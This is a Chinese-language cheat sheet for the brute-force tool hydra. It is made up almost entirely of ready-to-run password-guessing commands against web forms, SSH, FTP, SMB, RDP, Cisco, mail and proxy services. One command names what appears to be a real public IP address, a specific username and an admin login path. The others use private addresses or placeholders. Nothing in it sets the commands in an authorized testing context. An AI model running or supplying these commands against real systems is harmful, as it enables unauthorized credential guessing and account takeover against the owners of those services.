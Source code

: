 ## hydra九头蛇：暴力破解工具
hydra是一个支持众多协议的爆破工具。<br>

**参数详解**<br>
表头 | 表头
参数 | 用途
-l | 指定单个用户名，适合在知道用户名爆破用户名密码时使用
-L | 指定多个用户名，参数值为存储用户名的文件的路径(建议为绝对路径)


### 1、破解http post:
```shell
hydra -t 10 -l vaccigen -P /opt/fuzzDicts-master/passwordDict/top6000.txt -o out.txt -f -vV 52.196.234.51 http-post-form "/admin/index.php:account=^USER^&password=^PASS^:error" 
```
### 2、破解http get:
```shell
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```
### 3、破解https:
```shell
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
```
### 4、破解ssh:
```shell
hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f
```
### 5、破解ftp:
```shell
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```
### 6、破解teamspeak： 
```shell
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
```
### 7、破解cisco： 
```shell
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
```
### 8、破解smb： 
```shell
hydra -l administrator -P pass.txt 10.36.16.18 smb 
```
### 9、破解pop3： 
```shell
hydra -l muts -P pass.txt my.pop3.mail pop3 
```
### 10、破解rdp： 
```shell
hydra ip rdp -l administrator -P pass.txt -V 
```
### 11、破解http-proxy： 
```shell
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
```
### 12、破解imap: 
```shell
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
